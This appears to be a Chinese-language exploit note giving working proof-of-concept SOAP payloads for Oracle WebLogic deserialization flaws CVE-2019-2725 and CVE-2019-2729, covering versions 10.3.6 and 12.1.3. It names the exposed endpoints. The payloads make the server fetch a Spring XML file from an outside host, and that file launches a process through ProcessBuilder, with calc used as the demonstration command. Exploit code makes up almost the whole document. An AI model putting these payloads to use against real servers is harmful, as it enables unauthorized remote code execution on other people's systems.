这个类`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`在v10和v12都存在：
- 10.3.6.0: `modules/com.bea.core.repackaged.springframework.spring_1.2.0.0_2-5-3.jar`
- 12.1.3.0: `wlserver/modules/com.bea.core.repackaged.springframework.spring_1.5.0.0_2-5-3.jar`

而且这两个path：
- `/wls-wsat/CoordinatorPortType`
- `/_async/AsyncResponseService`
都可以用。

限制条件在于：服务器能否外联出网

### CVE-2019-2725_v10_v12
poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### CVE-2019-2729_v10
由于jdk的xmldecoder原因，`<array method="forName">`仅支持基于jdk6的v10.

poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<array method="forName">
<string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</array>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```



其中spel2.xml文件内容：
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```


参考：
- [Weblogic-CVE-2019-2725分析通杀poc](https://p0rz9.github.io/2019/05/22/Weblogic-CVE-2019-2725%E5%88%86%E6%9E%90%E9%80%9A%E6%9D%80poc/)
- [Weblogic-CVE-2019-2725-通杀payload](http://www.lmxspace.com/2019/05/15/Weblogic-CVE-2019-2725-%E9%80%9A%E6%9D%80payload/)
- [WebLogic wls9-async组件RCE分析（CVE-2019-2725）](https://lucifaer.com/2019/05/10/WebLogic%20wls9-async%E7%BB%84%E4%BB%B6RCE%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-2725%EF%BC%89/)
- [CNTA-2019-0014 wls9-async 反序列化 rce 分析](https://www.cnblogs.com/afanti/p/10792982.html)
